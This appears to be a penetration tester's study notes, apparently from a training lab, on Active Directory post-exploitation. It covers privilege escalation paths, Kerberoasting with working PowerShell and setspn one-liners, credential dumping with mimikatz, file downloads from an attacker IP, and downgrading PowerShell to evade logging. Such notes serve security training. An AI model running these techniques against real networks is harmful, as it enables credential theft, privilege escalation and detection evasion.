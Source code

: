 The final goal for a machine is to get to  `NT AUTHORITY\SYSTEM` 

## After initial access
Once we have gained access and got credentials, we can gather more information or connect to the host with the following methods:
 - CrackMapExec: with `-U <username> -p <password>` to query usernames, groups, logged on users, ...
- BloodHound: can be used to recover active sessions (logged on users)
- SMBmap
- Impacket: (psexec, wmiexec)
	- psexec: Create remote connection to host (via RPC) and give us an interactive remote shell as SYSTEM. Need a user with local admin privileges

#### Windows
- ActiveDirectory module for powershell
- powerview
- Snaffler (for credentials hunt in shares)
- BloodHound (for visualization) with SharpHound (for data collection)

## Methods for Privesc
- Try [[LLMNR & NBT-NS Poisoning]]
- Retry password spraying and hope to find an admin account
- Windows exploits, such as Eternal Blue
- Abusing running services (normal privesc)
- Kerberoasting
- Abusing `SeImpersonate` (check with `whoami /all`) with [Juicy Potato](https://github.com/ohpe/juicy-potato)
- Find other vulnerabilities with standard method or through `winpeas` (normal privesc)

### Kerberoasting
Abuses the Kerberos protocol to harvest password hashes (TGS ticket) for AD users with Service Principal Name (SPN) values (service accounts). These hashes can then either be cracked offline, or we can use pass-the-hash functionalities (in `evil-winrm` for example).

Steps:
- Find accounts with SPN
- Trigger kerberoast attack with tools such as Rubeus
- Take hashes offline and use hashcat -m 13100

Tools:
- GetUserSPN from Impacket (python)
- kerberoast ()
- targetedKerberoast
- Rubeus

#### From Windows
- Enumerate SPN with native command `setspn.exe`
- Manually: load ticket into memory using Powershell:
	- ```Add-Type -AssemblyName System.IdentityModel
	- `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"`
- using `setspn.exe`:
	- `setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }`
- Extract ticket from memory using mimikatz
## Bloodhound
Running SharpHound/BloodHound is always a good idea on the target. It helps use see the paths that can be taken from our user to domain admins / domain controllers.

The results can be taken back locally on our machine and analysed.

## Transfer Files
- `wget <ip> -o <target>`
- curl
- certutil
- `(New-Object System.Net.WebClient).DownloadFile(<ip>, <target>`
- scp
- ftp/tftp

## Living off the Land (LOTL)
- powershell can be downgraded with `powershell.exe -version 2`. Interesting as version 2 does not have log system enabled, meaning we will be stealthier
- Check defenses with `netsh` and `sc`
- Check network with: 
	- `arp -a`
	- `route print`
	- `ipconfig /all`
- Check WMI: Windows Management Instrumentation
- `Net` commands (accounts, group, localgroup, ..)
- [`dsquery`](https://www.aud507.com/media/DSQuery.pdf)
- [Get-MpComputerStatus](https://docs.microsoft.com/en-us/powershell/module/defender/get-mpcomputerstatus?view=windowsserver2022-ps): check defenses

For other Powershell commands, check [[Powershell Cheatsheet]]

## Once admin
- enumerate the domain (with tool such as Bloodhound for example or windapsearch)
- Kerberoasting
- SMB relay attacks
- gather Net-NTLMv2 hashes
- token impersonation
- ACL attacks